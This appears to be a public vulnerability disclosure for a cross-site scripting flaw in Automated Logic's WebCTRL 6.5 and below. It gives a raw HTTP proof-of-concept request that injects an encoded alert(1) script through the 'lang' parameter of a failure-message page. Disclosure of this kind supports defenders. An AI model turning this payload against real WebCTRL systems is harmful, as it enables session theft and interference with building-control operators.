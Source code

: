 # XSS vulnerability in Automated Logic's WebCTRL product
Exploit Title:  XSS in Automated Logic WebCTRL

Google Dork: -

Date: 2020-08-25

Exploit Author: İsmail ERKEK 

Vendor Homepage: https://www.automatedlogic.com/

Version: 6.5 and below

Tested on: -

# Proof of Concept Request
-------------------------------------------------
GET /_common/lvl5/failuremessage.jsp?message1=Operator_authentication_failed1&message2=Operator_authentication_failed2&lang=en61302%26%23x22%3b%3balert(1)%2f%2f107 HTTP/1.1
Host: 127.0.0.1
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://127.0.0.1/?language=en
Cookie: JSESSIONID=15B8DBC7037CBF79B647B8D6F0ABEF0B

